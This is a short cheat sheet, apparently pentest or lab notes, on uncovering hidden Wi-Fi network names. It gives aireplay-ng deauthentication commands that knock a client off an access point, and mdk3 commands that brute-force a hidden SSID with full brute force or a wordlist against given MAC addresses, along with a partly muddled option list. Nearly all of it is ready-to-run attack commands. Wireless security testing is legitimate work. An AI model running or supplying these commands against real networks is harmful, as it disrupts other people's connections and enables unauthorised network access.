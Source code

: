 # Detect using deauth
```bash
sudo airodump-ng -c 1 wlan0mon
sudo aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan0mon
sudo airodump-ng -c 1 wlan0mon
```

# Bruteforcing Hidden SSID
https://github.com/charlesxsh/mdk3-master
```bash
sudo mdk3 wlan0mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
-e 	Specify the SSID for probing.
-f 	Read lines from a file for brute-forcing hidden SSIDs.
-t 	Set the MAC address of the target AP.
-s 	Set the speed (Default: unlimited, in Bruteforce mode: 300).
-b 	Use full brute-force mode (recommended for short SSIDs only). This switch is used to show its help screen
```bash
sudo mdk3 wlan0mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```

